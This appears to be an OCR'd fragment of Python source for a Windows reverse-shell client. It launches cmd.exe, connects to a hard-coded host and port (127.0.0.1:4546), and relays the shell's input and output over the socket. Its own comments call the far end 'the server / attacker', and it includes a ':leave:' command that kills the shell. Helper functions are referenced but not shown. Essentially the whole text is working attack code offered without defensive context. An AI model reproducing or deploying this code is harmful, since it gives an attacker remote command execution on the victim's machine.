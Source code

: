 ```python
#The shellsender() function will send the results of the executed command back to the server / attacker        
def shellreceiver(client, myshellproc):
    while True:
        try:
            data = client.recv(1024)
            if len(data) > 0:
                #if you type :leave: in the server/attacker console it closes the connection.  similar to 'exit' but just a custom version of that that I like to implement
                if ":leave:" in data.decode("UTF-8"):
                    subprocess.Popen("TASKKILL /F /PID {pid} /T".format(pid=myshellproc.pid))
                    client.close()
                    os._exit(0) 
                myshellproc.stdin.write(data)
                myshellproc.stdin.flush()
        #basic exception handler to kill the process for cmd.exe if we cannot reach the server
        except:
            print("connection died...")
            subprocess.Popen("TASKKILL /F /PID {pid} /T".format(pid=myshellproc.pid))
            client.close()
            os._exit(0)

# start the command shell and pipe it's contents to stdin, stout, and stderr        
myshellproc = subprocess.Popen("cmd.exe", stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

host="127.0.0.1"
port=4546
    
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    client.connect((host, port))
except:
    print("server/socket must have died...time to hop off")
    os._exit(0)

#This initiates our function threads!
###############################################
s2p_thread = threading.Thread(target=shellstdout_sender, args=[client, myshellproc])
s2p_thread.daemon = True
s2p_thread.start()

s2p_thread = threading.Thread(target=shellstderr_sender, args=[client, myshellproc])
s2p_thread.daemon = True
s2p_thread.start()

s2p_thread = threading.Thread(target=shellreceiver, args=[client, myshellproc])
s2p_thread.daemon = True
s2p_thread.start()
###############################################

#continuous loop
while True:
    time.sleep(1)
```
